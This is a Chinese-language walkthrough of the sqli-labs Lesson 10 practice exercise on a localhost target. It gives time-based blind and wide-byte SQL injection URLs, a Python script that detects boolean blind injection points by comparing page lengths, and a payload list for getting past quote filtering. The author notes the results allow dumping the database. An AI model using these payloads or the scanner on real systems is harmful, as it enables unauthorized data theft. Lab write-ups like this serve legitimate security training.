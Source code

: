 # Lesson-10
```
时间盲注-,-宽字节注入-,-Bool盲注
```

和第九题一样 , 将单引号换成双引号就好了
```
http://127.0.0.1/Less-10/?id=1
http://127.0.0.1/Less-10/?id=1%22
http://127.0.0.1/Less-10/?id=1%22%20and%20sleep(1)--+
http://127.0.0.1/Less-10/?id=1%22%20and%20(%271%27=%27%27%20or%20sleep(3))--+
http://127.0.0.1/Less-10/?id=1%22%20and%20(()%20or%20sleep(3))--+
```
> 后记 : 
之后写了一个批量检测Bool盲注的脚本 : 
跑了之后发现竟然还有Bool盲注的注入点 : 
```
0"|()--+
0%df"|()--+
```

这两种情况都可以盲注 , 可以利用之前的脚本去跑 , 可以脱库
下面是批量检测是否为Bool盲注的脚本 , 比较忙 , 写的很简陋
主要是通过判断页面长度来判定是否是Bool盲注
感觉这种判断的机制并不是很科学 , 以后可能还需要添加关键字判断什么的
```
#!/usr/bin/env python
# encoding:utf8
import requests

rules = open('rules', 'r')

baseUrl = "http://127.0.0.1/Less-10/?id="

url = baseUrl + "1"

contentLength = len(requests.get(url).text)
print "正常返回长度为 : ",contentLength

for line in rules:
	if line.startswith("#"):
		continue
	if line == "\r\n":
		continue
	line = line[0:-1]
	startTemp = line.split("()")[0]
	endTemp = line.split("()")[1]
	testUrl1 = baseUrl + startTemp + "0" + endTemp
	testUrl2 = baseUrl + startTemp + "1" + endTemp
	# print "Checking : " + testUrl1 + "\t",
	len1 = len(requests.get(testUrl1).text)
	# print len1
	len2 = len(requests.get(testUrl2).text)
	# print testUrl2,"\t",len2
	if (len1 != contentLength) and (len2 == contentLength):
		print baseUrl + line
```
```
# 如下语句 : 如果返回正常 , 说明猜测成功
0|()--+
0'|()--+
0"|()--+
0)|()--+
0')|()--+
0")|()--+
0))|()--+
0'))|()--+
0"))|()--+
0)))|()--+
#####################################
# 当单引号被过滤(去掉)
0%df'|()--+
0%df')|()--+
0%df'))|()--+
#####################################
# 当双引号被过滤
0%df"|()--+
0%df")|()--+
0%df"))|()--+
```
